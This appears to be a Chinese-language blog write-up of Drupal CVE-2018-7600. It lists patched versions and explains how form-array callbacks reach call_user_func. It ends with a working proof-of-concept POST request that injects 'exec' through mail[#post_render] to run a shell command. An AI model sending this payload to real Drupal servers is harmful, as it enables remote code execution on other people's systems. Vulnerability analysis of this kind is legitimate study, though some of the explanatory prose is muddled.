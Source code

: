 ```yaml
---
title: Drupal CVE-2018-7600 口语分析
date: 2018-5-24 8:50:30
tags: Web安全
toc: true
---
```


> 一些版本(还有6版本)
7.x版本，更新到 7.58  
8.5.x版本，更新到 8.5.1   
8.4.x 版本，更新到 8.4.6   
8.3.x 版本，更新到 8.3.9   

### 口语分析 

####  描述

一个CMS，它有一个流程：注册页面时提交页面正确，返回注册成功
如果表单出错，比如邮箱重复，会调用 buildform ，把post表单数据构造成数组，作为 html 表单数据返回，另一个问题是，上传图片时，会返回缩略图，调用表单数组，上传图片会调用 uploadAjaxCallback 方法，第一个参数是form表单数组，上传函数中会把get的第一个参数element_parents的值转为数组赋值给 form_parents,

	$form_parents = explode('/', $request->query->get('element_parents'));,
然后有个函数，是把 from_parents 数组当作路径(本来就是路径看下面的poc 就知道了)去  from 表单按照这个路径下只有一个数组，取出来赋值给新的 $from ,下面有个函数把 from 数组当作参数，函数返回又调用另一个函数，而这个函数调用了 call_user_func 方法，call_user_func 的第一个参数是 callable，callable 是由 elements['#pre_render'] 赋值的，这是 post 数据可控，第二个参数 mail[#markup] 也是 post 参数 。

####  post get 发送数据的一个点
这里边，还有个点，post 一般 只有 post 数据，而这里从 get ，post 取值，是因为post get，基于tcp/ip，因为 浏览器 / 服务器限制，让 get post 有点不同，get post  浏览器没限制的话，或直接发包，都是可以发 http 头中 data，body数据的。

### POC
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1

Host: 192.168.1.1:32767
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=whoami
```

